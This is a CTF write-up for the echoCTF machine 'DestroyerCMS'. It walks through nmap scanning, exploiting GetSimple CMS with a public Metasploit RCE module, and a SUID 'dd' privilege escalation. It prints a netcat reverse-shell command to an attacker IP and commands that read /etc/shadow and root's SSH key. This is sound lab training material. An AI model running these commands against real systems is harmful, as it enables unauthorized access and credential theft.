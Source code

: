 ```yaml
---
description: >-
  DestroyerCMS echoCTF Machine
title: DestroyerCMS (Intermediate)                # Add title here
date: 2025-01-23 08:00:00 -0600                           # Change the date to match completion date
categories: [echoCTF, Intermediate]                     # Change Templates to Writeup
tags: []     # TAG names should always be lowercase; replace template with writeup, and add relevant tags
show_image_post: true                                    # Change this to true
image: /assets/img/icons/Destroyercms.png                # Add infocard image here for post preview image
---
```

##### Host entries
```bash
10.0.160.222    destroyercms.echocity-f.com
```

### Content

-   GetSimpleCMS RCE exploit
-   SUID privilege escalation

### Reconnaissance

Initial reconnaissance for TCP ports
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:31:07 2025 as: nmap -p- -sS --open --min-rate 500 -Pn -n -vvvv -oG allPorts 10.0.160.222
# Ports scanned: TCP(65535;1-65535) UDP(0;) SCTP(0;) PROTOCOLS(0;)
Host: 10.0.160.222 ()   Status: Up
Host: 10.0.160.222 ()   Ports: 22/open/tcp//ssh///, 80/open/tcp//http///
# Nmap done at Thu Jan 23 23:34:40 2025 -- 1 IP address (1 host up) scanned in 212.81 seconds
```

Services and Versions running:
```bash
# Nmap 7.94SVN scan initiated Thu Jan 23 23:36:49 2025 as: nmap -p22,80 -sCV -n -Pn -vvvv -oN targeted 10.0.160.222
Nmap scan report for 10.0.160.222
Host is up, received user-set (0.17s latency).
Scanned at 2025-01-23 23:36:50 EST for 42s

PORT   STATE SERVICE REASON         VERSION
22/tcp open  ssh     syn-ack ttl 63 OpenSSH 8.4p1 Debian 5+deb11u3 (protocol 2.0)
| ssh-hostkey: 
|   256 59:f2:44:81:7e:39:44:a2:74:78:01:f4:41:9d:3c:32 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBHrsjVfK8kJ4w0XD3dHLYJmvvzVETjkYlbeoYVFk8aHpq9fngAgZvUDDnDekezCzkEP0yYOq4NIP1/mGsLFQ/G4=
|   256 41:6c:06:38:b6:c4:81:32:3a:da:93:34:8e:5e:52:9b (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIBcNlnBiNe1SHe160w0K6u9YfowdzTrYEeVIYZHKyZ+7
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.61 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-title: Welcome to GetSimple! - simple
| http-robots.txt: 1 disallowed entry 
|_/admin/
|_http-server-header: Apache/2.4.61 (Debian)
```

### Exploitation

Checking service HTTP on port 80 I discovered that there is a page that is not shown correctly, so I hover my mouse on top of the "Home" hyperlink to check if there is a host that is not being recognized: 
![](/assets/img/Pasted-image-20250123223859.png)

So, let's add it to the hosts file:
```bash
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
::1             localhost ip6-localhost ip6-loopback
ff02::1         ip6-allnodes
ff02::2         ip6-allrouters


10.0.160.222    destroyercms.echocity-f.com
```

Finally, I can see the full page with all the visual content:
![](/assets/img/Pasted-image-20250123224310.png)

Searching for this GetSimple CMS I found a public [RCE exploit](https://www.exploit-db.com/exploits/51475) that is easily exploited via metasploit:

![](/assets/img/Pasted-image-20250123224647.png)

After setting all the details, a meterpreter session is opened:

![](/assets/img/Pasted-image-20250123224824.png)

Note.- It is possible to start a normal shell with command `shell` in meterpreter and using `nc`

```bash
meterpreter > shell
Process 183 created.
Channel 0 created.

nc -c bash 10.10.5.122 2345
```

### Privilege Escalation

By looking for SUID binaries we identify that there is a SUID binary `dd` that has special privilege flag:
```bash
www-data@destroyercms:/tmp$ find / -perm -4000 2>/dev/null
/usr/lib/openssh/ssh-keysign
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/passwd
/usr/bin/sudo
/bin/su
/bin/umount
/bin/dd
/bin/mount
```

This binary has an special entry in [GTFObin](https://gtfobins.github.io/gtfobins/dd/) which allows an user to read and write files:

![](/assets/img/Pasted-image-20250123231808.png)

I then proceed to read the `/etc/shadow` file to verify if this is correct, and surprise I can read the file:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/etc/shadow
root:*:19458:0:99999:7:::
daemon:*:19458:0:99999:7:::
bin:*:19458:0:99999:7:::
sys:*:19458:0:99999:7:::
sync:*:19458:0:99999:7:::
games:*:19458:0:99999:7:::
man:*:19458:0:99999:7:::
lp:*:19458:0:99999:7:::
mail:*:19458:0:99999:7:::
news:*:19458:0:99999:7:::
uucp:*:19458:0:99999:7:::
proxy:*:19458:0:99999:7:::
www-data:*:19458:0:99999:7:::
backup:*:19458:0:99999:7:::
list:*:19458:0:99999:7:::
irc:*:19458:0:99999:7:::
gnats:*:19458:0:99999:7:::
nobody:*:19458:0:99999:7:::
_apt:*:19458:0:99999:7:::
mysql:!:19965:0:99999:7:::
sshd:*:19965:0:99999:7:::
ETSCTF:ETSCTF_<REDACTED>:19965:0:99999:7:::
```

This means that we can read files within /root directory, such as `/root/.ssh/id_rsa`:
```bash
www-data@destroyercms:/tmp$ /bin/dd if=/root/.ssh/id_rsa
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAABlwAAAAdzc2gtcn
<REDACTED>
```

Then we can save this id_rsa private key to access via ssh (don't forget chmod 600):
```bash
└─$ ssh -i id_rsa root@10.0.160.222  
The authenticity of host '10.0.160.222 (10.0.160.222)' can't be established.
ED25519 key fingerprint is SHA256:qPvHgmIzb2YH68N6uMkwoHTkCXjfKLqBYeuEnUc5FZo.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
root@destroyercms:~#
```

### Post Exploitation
Flags are stored at:

`/etc/passwd`
`/etc/shadow`
`environment variables`
`/root`

### Credentials
Find id_rsa for user root using dd binary with SUID

### Notes

-   Always look for public exploits on CMS specially those that are verified and have metasploit PoC
-   Look for SUID binaries, privilege escalation simple commands are key (if not, use linpeas.sh)

### References

- [GetSimple CMS RCE exploit](https://www.exploit-db.com/exploits/51475)
- [GTFObin dd binary](https://gtfobins.github.io/gtfobins/dd/)
